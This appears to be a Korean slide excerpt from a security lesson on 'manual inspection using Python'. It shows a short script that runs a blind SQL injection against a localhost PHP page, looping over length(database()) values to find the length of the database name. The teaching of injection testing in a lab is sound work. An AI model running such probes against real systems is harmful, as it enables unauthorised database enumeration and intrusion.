

# 파이썬 코드를 이용한 수동 점검
for lengths in range(1, 30):
    length = 0
    url = "http://localhost/index_ok.php?no=1%20and%20length(database())={0}".format(lengths)
    res = requests.get(url)
    if "1q2w3e4r" in res.text:
        print("=====================================")
        print("길이는{0}".format(lengths))
        print("=====================================\n")
        length = lengths
        break
    else:
        continue
13